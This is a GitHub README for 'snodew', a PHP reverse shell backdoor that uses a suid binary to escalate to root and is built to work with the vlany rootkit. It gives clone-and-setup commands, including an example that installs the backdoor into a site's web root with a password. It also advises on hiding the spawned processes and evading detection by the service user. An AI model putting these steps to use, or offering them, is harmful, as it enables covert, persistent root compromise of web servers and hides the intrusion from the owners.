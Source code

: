 # snodew
*snodew is a PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/EA93M3g.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/2MM3h45.png"/></br>
*Result after following instructions given on our new page*

## notes
 * requires a web service to be running on the box (along with php support for the service package)
 * sh process spawned from service user is visible, though this could be subverted by checking /proc/self/cmdline and hiding the process if it contains the hidden suid bin
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * when vlany is installed, simply su'ing to the service user won't allow them to see the files. vlany checks to see if an apache environment variable is also exported before giving access to the file, and does the same for nginx so that - by default - the file can only be accessed from a browser or from an owner shell
  * exporting the apache environment variable that vlany checks, after su'ing to the service user will circumvent this
 * suid possibly disabled
 * not using 'exit' to exit the shell will leave the process spawned by the service in process lists (ps, top etc)
